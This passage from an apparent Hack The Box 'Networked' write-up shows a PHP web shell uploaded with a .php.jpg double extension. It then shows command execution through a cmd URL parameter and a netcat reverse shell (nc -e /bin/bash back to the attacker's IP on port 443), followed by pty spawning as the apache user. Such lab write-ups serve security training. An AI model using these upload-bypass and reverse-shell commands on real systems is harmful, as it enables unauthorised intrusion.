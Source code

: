 The server didn’t interpret the file as an image. In other words, the server found `.php` in the filename and interpreted it as a PHP script. I tried to supply a simple command via the `cmd` parameter and see if I had command execution:
<center><img src="/images/networked_htb_writeup/image-16.png"></center>

The `id` command was successfully executed. Moreover, I could see the output at the end of the page. With that in mind, I used `nc` to spawn a reverse shell on port 443:

{% highlight bash %}
http://networked.htb/uploads/10_10_14_140.php.jpg?cmd=nc%2010.10.14.140%20443%20-e%20/bin/bash

{% endhighlight %}

As soon as I got the reverse shell, I spawned a tty:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/networked# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.146] 51886
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ wwhhoamoamii

apache
bash-4.2$ llss

10_10_14_140.php.jpg  127_0_0_1.png  127_0_0_3.png  index.html
10_10_14_207.php.png  127_0_0_2.png  127_0_0_4.png
bash-4.2$

{% endhighlight %}
